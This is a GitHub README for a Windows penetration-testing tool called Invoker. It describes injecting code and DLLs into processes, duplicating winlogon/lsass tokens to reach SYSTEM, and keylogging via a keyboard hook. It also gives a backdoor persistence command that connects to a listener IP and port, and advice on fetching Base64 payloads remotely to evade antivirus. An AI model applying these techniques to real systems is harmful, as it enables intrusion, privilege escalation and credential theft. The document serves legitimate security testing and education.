 # Invoker

Penetration testing utility.

The goal is to use this tool when access to some Windows OS features through GUI is restricted.

Some features require administrative privileges.

Capabilities:

* invoke the Command Prompt and PowerShell,
* download a file,
* add a registry key,
* schedule a task,
* Windows Management Instrumentation (WMI),
* connect to a remote host,
* terminate a running process,
* run a new process,
* dump a process memory,
* inject a bytecode into a running process,
* inject a DLL into a running process,
* list DLLs of a running process,
* install a hook procedure,
* enable access token privileges,
* duplicate an access token of a running process,
* list unquoted service paths and restart a running service,
* replace Sticky Keys.

Built with Dev-C++ IDE v5.11 (64-bit), compiled with TDM-GCC v4.9.2 (32-bit and 64-bit) and tested on Windows 10 Enterprise OS (64-bit). Download Dev-C++ from [here](https://sourceforge.net/projects/orwelldevcpp/files/Portable%20Releases/).

**NEW: Visual Studio Community 2019 v16.7.6 projects added.**

Made for educational purposes. I hope it will help!

Future plans:

* Direct System Calls,
* DLL Proxying,
* COM Hijacking.

## Invoker Library

Check all the capabilities [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/Invoker/lib/invoker/invoker.cpp). Feel free to use the library.

## How to Run (!!)

Run [\\exec\\Invoker_x86.exe](https://github.com/ivan-sincek/invoker/tree/master/exec) (32-bit) or [\\exec\\Invoker_x64.exe](https://github.com/ivan-sincek/invoker/tree/master/exec) (64-bit).

To automate the backdoor while setting up a persistence, you can run the following command:

```fundamental
Invoker_x64.exe 192.168.8.5 9000
```

32-bit Invoker can only:

* dump the memory of a 32-bit process,
* inject a 32-bit bytecode into a 32-bit process,
* inject a 32-bit DLL into a 32-bit process,
* list DLLs of a 32-bit process,
* install a hook procedure from a 32-bit DLL.

64-bit Invoker can only:

* dump the memory of a 32-bit process,
* dump the memory of a 64-bit process,
* inject a 32-bit bytecode into a 32-bit process,
* inject a 64-bit bytecode into a 64-bit process,
* ~~inject a 32-bit DLL into a 32-bit process,~~
* inject a 64-bit DLL into a 64-bit process,
* ~~list DLLs of a 32-bit process,~~
* list DLLs of a 64-bit process.
* ~~install a hook procedure from a 32-bit DLL,~~
* install a hook procedure from a 64-bit DLL.

## Bytecode Injection

Elevate privileges by injecting bytecode into a higher-privileged process.

This tool can parse an HTTP response and extract the payload from a custom element, e.g. from `<invoker>payload</invoker>` where `payload` is a binary code/file encoded in Base64.

Check the example at [pastebin.com/raw/xf9Trt0d](https://pastebin.com/raw/xf9Trt0d).

This might be useful if antivirus is constantly deleting your local payloads.

Also, check an additional example at [pastebin.com/raw/iW17rCxH](https://pastebin.com/raw/iW17rCxH).

Bytecode provided will most certainly not work for you.

**Pastebin no longer works because it now redirects HTTP to HTTPS.**

Use [ngrok](https://ngrok.com) to give your local web server a public address.

Too see if a process is 32-bit or 64-bit open up Task Manager -> click on `More details` -> go to `Details` tab -> right click on any of the columns -> click on `Select columns` -> check the `Platform` checkbox.

Additionally, to see if a process is running with administrative privileges check the `Elevated` checkbox.

## Generate a Reverse Shell Payload

Find out how to generate a reverse shell payload from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#generate-a-reverse-shell-payload-for-windows-os), as well as, find out how to set up an [Ncat](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#ncat) and [multi/handler](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#multihandler) listeners.

## PowerShell Scripts

Check all the PowerShell scripts used in the main C++ program [here](https://github.com/ivan-sincek/invoker/tree/master/ps).

## Make a DLL With a Hook Procedure

Find out how to make a DLL with a hook procedure [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/InvokerHook/dllmain.cpp).

The hook procedure will invoke a message box on each window close.

Also, check out a keyboard hook procedure [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/KeyboardHook/dllmain.cpp).

**Make sure to remove all the created artifacts after you are done testing, e.g. remove `keylogger.log`.**

## Get the LocalSystem Account (NT AUTHORITY\SYSTEM)

Run the Invoker as administrator.

Enable all access token privileges.

Duplicate the access token from e.g. Windows Logon Application (winlogon.exe) and run a new instance of Invoker.

Within the new Invoker instance, open the Command Prompt and run `whoami`, you should now see `nt authority\system`.

Enable all access token privileges once again.

Close the old Invoker instance.

P.S. You get more access token privileges from Local Security Authority Subsystem Service (lsass.exe).

## Images

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/invoker.jpg" alt="Invoker"></p>

<p align="center">Figure 1 - Invoker</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/registry.jpg" alt="Add/Edit Registry Key"></p>

<p align="center">Figure 2 - Add/Edit Registry Key</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/bytecode_injection.jpg" alt="Bytecode Injection"></p>

<p align="center">Figure 3 - Bytecode Injection</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/elevated_privileges.jpg" alt="Elevated Privileges"></p>

<p align="center">Figure 4 - Elevated Privileges</p>

